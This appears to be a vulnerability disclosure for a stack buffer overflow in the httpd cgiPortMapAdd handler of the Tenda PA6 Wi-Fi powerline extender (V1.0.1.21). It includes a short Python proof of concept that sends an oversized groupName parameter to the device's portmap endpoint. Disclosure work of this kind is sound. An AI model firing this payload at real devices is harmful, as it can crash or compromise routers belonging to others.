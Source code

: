 # Tenda PA6(V1.0.1.21) Wi-Fi Powerline Extender has stack buffer overflow vulnerability
## Information

Vendor：https://www.tendacn.com/

Firmware：https://www.tendacn.com/download/detail-3979.html

## Affected Version
V1.0.1.21
## Vulnerability Analysis
The following image displays the code for a stack buffer overflow vulnerability in the `cgiPortMapAdd` function of `httpd`. The value of the `groupName` parameter will be concatenated ​​to local variable `var_82c`, which will cause stack buffer overflow.

![code](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/portmap"

payload = { 
    'action': 'add',
    'groupName': "A"*1000
    }

requests.request("POST", url, data=payload)
```
## NOTE
The vendor was contacted early about this disclosure but did not respond in any way.